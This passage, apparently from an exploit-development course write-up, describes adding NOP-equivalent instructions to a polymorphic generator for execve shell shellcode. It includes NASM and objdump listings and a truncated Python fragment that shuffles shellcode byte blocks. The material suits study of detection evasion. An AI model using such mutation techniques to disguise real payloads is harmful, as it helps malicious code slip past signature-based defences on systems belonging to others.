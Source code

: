 The third strategy I want to use in my exec shell shellcode polymorphic
generator, is to add some NOP equivalent operations.

The lesson learnt in the previous NOP dope chapter is that I have to deal
carefully with JMP and CALL offset tuning.


{% highlight asm %}
 % cat nop_equivalent.nasm
global _start

section .text

_start:
	nop
	cmp eax, 0x0
	cmp ebx, 0x0
	cmp ecx, 0x0
	xchg eax, eax
	xchg ebx, ebx
	xchg ecx, ecx

 % objdump -d nop_equivalent

nop_equivalent:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	90                   	nop
 8048081:	83 f8 00             	cmp    $0x0,%eax
 8048084:	83 fb 00             	cmp    $0x0,%ebx
 8048087:	83 f9 00             	cmp    $0x0,%ecx
 804808a:	90                   	nop
 804808b:	87 db                	xchg   %ebx,%ebx
 804808d:	87 c9                	xchg   %ecx,%ecx

{% endhighlight %}

Please note how the opcode is xchg eax, eax is 0x90 like NOP. I choose not to
use PUSH and POP instructions, because not to mess it up with legal push and
pop I executed in the shellcode. Of course, it is possible to inject stack
operations preserving the ones we need to do, however I want to make it simple
just to show this assignment solution.

{%highlight python%}

def byte_len(array_string):
    return "".join(array_string).count("\\x")

...

def kill_nop_super_dope():

    init_blk =["\\x6a\\x0b\\x58", "\\x31\\xc9", "\\x31\\xd2"];
    setup_blk=["\\x5b" ];

    nop_blk=["\\x90", "\\x83\\xf8\\x$$", "\\x83\\xfb\\x??", "\\x83\\xf9\\x%%", "\\x87\\xdb", "\\x87\\xc9"]

    shuffle(nop_blk)
    n = randint(0, 10); 
    init_nop_blk = nop_blk[0:(n/3)]
    shuffle(nop_blk)
    setup_nop_blk = nop_blk[0:(n*2/3)]


    init_blk.extend(init_nop_blk)

    print init_nop_blk
    print init_blk

    setup_blk.extend(setup_nop_blk)